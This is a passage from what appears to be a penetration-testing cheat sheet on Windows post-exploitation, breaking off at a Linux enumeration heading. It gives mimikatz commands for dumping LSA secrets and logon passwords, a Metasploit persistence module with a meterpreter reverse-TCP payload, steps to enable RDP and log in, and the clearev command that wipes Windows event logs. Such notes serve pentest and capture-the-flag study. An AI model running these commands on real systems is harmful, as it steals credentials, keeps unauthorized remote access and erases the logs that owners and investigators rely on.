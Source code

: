 Dump secret :
```cmd
mimikatz # lsadump::secrets
```

Dump logon passwords :
```cmd
mimikatz # sekurlsa::logonpasswords
```

## Persistence

### Metasploit

Thanks to Metasploit module :
```bash
use exploit/windows/local/persistence_service

set payload windows/meterpreter/reverse_tcp
set SESSION <ID>
```

Then, you just need to setup a handler.

### Enabling RDP

Enable RDP to access on GUI account :
```bash
use post/windows/manage/enable_rdp
```

Then, connect with **xfreerdp** : 
```bash
xfreerdp /u:Administrator /p:<PASSWORD> /v:<IP>
```

## Clearing Tracks

In your meterprerter session, you can clear the Windows Event Log :
```bash
meterpreter > clearev
```

If you have a resource script :
```bash
meterpreter > resource /path/to/rc_file
```


# Linux OS

## Local Enumeration

### System Enumeration

